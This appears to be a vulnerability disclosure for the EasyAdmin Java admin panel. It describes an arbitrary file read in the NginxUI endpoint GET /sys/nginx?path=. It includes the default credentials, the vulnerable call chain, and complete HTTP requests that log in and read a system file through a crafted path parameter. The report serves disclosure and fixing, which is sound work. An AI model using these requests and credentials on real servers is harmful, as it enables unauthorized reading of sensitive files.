






## Vulnerability Description

EasyAdmin (master branch) contains an arbitrary file read vulnerability in the configuration retrieval function of the "Workspace -> NginxUI" page (`GET /sys/nginx?path=`). The interface only verifies whether the user is logged in and lacks any access control or path whitelist validation. An attacker can log in using the default credentials (`laker` / `lakernote`) and manipulate the `path` parameter to read arbitrary sensitive files on the server, leading to severe information disclosure. The vulnerability is located in the `getNginxConfig` method of `NginxController.java` (around lines 45-52).

Gitee: https://gitee.com/lakernote/easy-admin

GitHub: https://github.com/lakernote/easy-admin

## **Vulnerability Analysis**

com.laker.admin.module.sys.controller.NginxController#get



com.github.odiszapc.nginxparser.NgxConfig#read



**Call Chain**

```
HTTP GET /sys/nginx?path=<arbitrary path>
└─ NginxController#get(String path)        [NginxController.java:42]
   └─ NgxConfig#read(String path)          [call site: NginxController.java:48]
      └─ new FileInputStream(path)         ← sink
```

## Steps to Reproduce

**1. Login with Default Credentials**

Access the EasyAdmin login page, enter the default username `laker` and password `lakernote`, and click login to successfully enter the backend management dashboard.





**Login Request**

```
POST /sys/auth/v1/login HTTP/1.1
Host: localhost:8080
Content-Length: 103
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/login.html
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=3581AA45BBCA361D81E36BC6A38E650A
Connection: keep-alive

{"username":"laker","password":"lakernote","captchaCode":"10","uid":"602307474fd8401b942e466ee2b6c63c"}
```

**2. Locate the Function Point and Observe the Data Packet**

Navigate to the "Workspace -> NginxUI" page in the left sidebar. Click on the function to read the configuration file, and use a proxy tool like Burp Suite to observe the HTTP request.

Observe that the request is `GET /sys/nginx?path=xxx`, where the `path` parameter specifies the file path to be read.



**3. Craft the Payload and Verify the Vulnerability**

Modify the `path` parameter in the request to an absolute path of the target system, for example, to read the hosts file on a Windows system:

```
GET /sys/nginx?path=C:/Windows/System32/drivers/etc/hosts
```

Send the request. The server responds with HTTP 200 and reflects the full content of the hosts file in the response body, confirming the arbitrary file read vulnerability due to the lack of path restriction.



```
GET /sys/nginx?path=C:/Windows/System32/drivers/etc/hosts HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
LakerToken: 94dc1fe36ece49efada4c800188345e0
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: */*
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/view/system/nginx.html
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=3581AA45BBCA361D81E36BC6A38E650A; LakerToken=94dc1fe36ece49efada4c800188345e0
Connection: keep-alive
```

